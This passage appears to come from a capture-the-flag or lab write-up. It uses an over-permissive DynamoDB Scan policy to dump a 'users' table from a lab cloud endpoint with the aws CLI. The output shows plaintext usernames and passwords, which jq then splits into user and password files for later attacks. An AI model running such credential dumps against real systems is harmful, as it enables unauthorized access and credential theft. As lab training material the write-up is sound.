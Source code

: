 ```
            Version: 2012-10-17
            Statement:
              - Effect: Allow
                Action:
                  - 'dynamodb:Scan'
                Resource: '*'

```

So using `aws` we can simply use scan to dump the users table from `dynamodb` where we can find several possible `users` and their passwords
```
aws --endpoint-url http://cloud.amzcorp.local dynamodb scan --table-name users | jq  
{
  "Items": [
    {
      "password": {
        "S": "dE2*5$fG"
      },
      "username": {
        "S": "jason"
      }
    },
    {
      "password": {
        "S": "cGh#@0_gJ"
      },
      "username": {
        "S": "david"
      }
    },
    {
      "password": {
        "S": "dF4G0982#4%!"
      },
      "username": {
        "S": "olivia"
      }
    }
  ],
  "Count": 3,
  "ScannedCount": 3,
  "ConsumedCapacity": null
}
```
Using `jq` we can create a user file and a password file
```
aws --endpoint-url http://cloud.amzcorp.local dynamodb scan --table-name users | jq -r '.Items[].username.S' > users.txt

aws --endpoint-url http://cloud.amzcorp.local dynamodb scan --table-name users | jq -r '.Items[].password.S' > passwords.txt  
```

